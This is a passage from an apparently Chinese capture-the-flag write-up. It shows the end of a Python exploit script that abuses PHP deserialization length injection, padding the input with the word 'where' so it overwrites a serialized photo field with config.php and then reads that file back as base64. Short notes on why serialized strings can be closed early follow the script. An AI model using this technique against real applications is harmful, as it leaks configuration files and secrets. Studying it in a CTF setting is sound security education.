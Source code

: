 ```
		self.cookie = {cookie[0]: cookie[1]}
		
	def fuck(self):
		url = "http://xxx:8085/update.php"
		payload = '";}s:5:"photo";s:10:"config.php";};'
		payload = "where" * len(payload) + payload
		f = open('/tmp/a.jpg',"w")
		f.write("fffff"*1024)
		f.close()
		files = {"photo": ("fff.jpg", open("/tmp/a.jpg","rb"))}
		data = {"phone": "1"*11, "email": "fffff@qq.com", "nickname[]": payload}
		req = requests.post(url, data=data, cookies=self.cookie, files=files)
		if not re.search("Success", req.content):
			print req.content
			exit(-1)
	
	def get_flag(self):
		url = "http://xxx:8085/profile.php"
		req = requests.get(url, cookies=self.cookie)
		try:
			base = re.findall('base64,(.+?)"',req.content)[0]
		except:
			print req.content
			print "crack fail!"
			exit(-1)
		print "crack success!"
		print "=========================="
		print base64.b64decode(base)
		print "=========================="
		

if __name__ == '__main__':
	POC()	
```

这题没做出来就是对序列化的理解不清楚。比如一个序列化字符串
```
a:1:{i:0;s:5:"aaaaa";}
```

**第一点**，反序列化时，当反序列化完一个序列后，就会停止，比如
```
a:1:{i:0;s:5:"aaaaa";}dfklasfjkal
```

上面的字符串进行反序列化和第一个字符串反序列化是一样的。。。

**第二点**，序列化字符串里没有转义字符。。所以说有了可以闭合序列化的可能，关键在于长度，序列一共由三部分组成，`数据类型:长度:数据`，看下面的例子
```
<?php
var_dump(unserialize('a:1:{i:0;s:5:"aa";}";}'));
// out
// array(1) {
//  [0]=>
//  string(5) "aa\";}"
// }
?>
then
<?php
var_dump(unserialize('a:1:{i:0;s:2:"aa";}";}'));
// out
// array(1) {
//  [0]=>
//  string(2) "aa"
// }
?>
```